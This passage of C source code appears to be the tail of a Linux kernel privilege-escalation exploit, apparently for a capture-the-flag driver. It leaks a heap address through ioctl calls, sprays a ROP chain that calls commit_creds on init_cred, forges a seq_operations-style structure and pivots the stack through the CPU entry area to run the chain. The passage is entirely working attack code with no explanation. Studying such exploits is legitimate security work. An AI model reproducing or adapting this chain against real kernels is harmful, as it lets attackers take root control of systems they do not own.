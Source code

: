 ```c
			kbase + INIT_CRED,
			kbase + COMMIT_CREDS,
			kbase + SWPAGS_AND_SHIT_103,
			0,
			0,
			&win,
			0x33,
			0x206,
			((long) &fd) & (~0xf),
			0x2b
		};

		for(int i=0; i<0x100; i++) 
		write(p[i][1], rop, sizeof(rop));

		req.fd = victim;
		req.val = fake_struct_addr;

		ioctl(fd, CMD_READ, &req);
		heap = req.val & 0xfffffffffffff000;
		printf("heap @ %p\n", heap);

		for(int i=0; i<(sizeof(fake_struct)/sizeof(size_t)); i++)
		fake_struct[i]  = 0;

		fake_struct[0] = 1; //fake m->buf (avoids an allocation)

		fake_struct[1] = kbase + ADD_RSP_POP_RBX_R12_R13_RBP_RET; //jumps to pop rsp

		fake_struct[11] = fake_struct_addr + 10*8; // m->op
		fake_struct[10] = kbase + PUSH_RDI_POP_RSP_POP_RBP_RET; //m->op->start

		fake_struct[13] = kbase + POP_RSP_RET;
		fake_struct[14] = heap + 0x12e000+0x3000 + 0x10000; //pivot

		req.fd = victim;
		req.val = fake_struct_addr;

		ioctl(fd, CMD_WRITE, &req);

		// https://github.com/google/security-research/blob/c6bbc1e706152250c3e412d2c7b9257788665fa1/pocs/linux/kernelctf/CVE-2023-3776_lts/exploit/lts-6.1.36/poc.c#L294
		if (fork() == 0) {
			signal(SIGFPE, handle);
			signal(SIGTRAP, handle);
			signal(SIGSEGV, handle);
			setsid();
			while(1){
				write_to_cpu_entry_area(fake_struct); 
			}
		}
		sleep(1);

		read(victim, buf, 0x10); //triggers m->op->start

		while(1){}
	}
}
```
